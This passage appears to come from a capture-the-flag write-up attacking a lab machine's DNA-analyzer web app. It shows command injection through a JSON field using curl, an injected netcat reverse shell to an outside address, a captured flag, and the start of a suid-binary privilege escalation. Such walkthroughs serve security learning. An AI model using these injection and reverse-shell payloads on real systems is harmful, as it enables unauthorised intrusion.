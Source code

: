 ```
Superb
root@kali:~# 
```

### Command execution

Very soon we will find out that we can execute OS commands simply by ending the DNA string and appending a command. Probably because API sends the data directly to a binary for analysis.

```
root@kali:~# curl -i -x 127.0.0.1:8081 -d '{"id":"6","val":"GATC; ls"}' http://127.0.0.1/dnanalyzer/portal/analyze_dna.php
HTTP/1.1 200 OK
cache-control: no-store, no-cache, must-revalidate
connection: Keep-Alive
content-type: text/html; charset=UTF-8
date: Fri, 18 Sep 2020 21:43:39 GMT
expires: Thu, 19 Nov 1981 08:52:00 GMT
keep-alive: timeout=5, max=100
pragma: no-cache
server: Apache/2.4.38 (Debian)
Content-Length: 9

index.php
root@kali:~# 
```

We can easily get a reverse shell from here.

```
root@kali:~# curl -i -x 127.0.0.1:8081 -d '{"id":"6","val":"GATC; nc 192.168.0.34 1337 -e /bin/bash"}' http://127.0.0.1/dnanalyzer/portal/analyze_dna.php
```

```
root@kali:~# nc -nlvp 1337
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We snatch the local flag:

```
cat /home/alphonse/flag.txt
dmx2urv87f2
```

### Priv Esc

After digging around on the machine, we find something interesting in the /home/alphonse/Documents folder. There is a binary with suid bit which asks for a password. 

```
ls -l
total 20
-rwsr-xr-x 1 root root 16976 Sep  3  2019 rootme
./rootme asdf
Wrong password
```
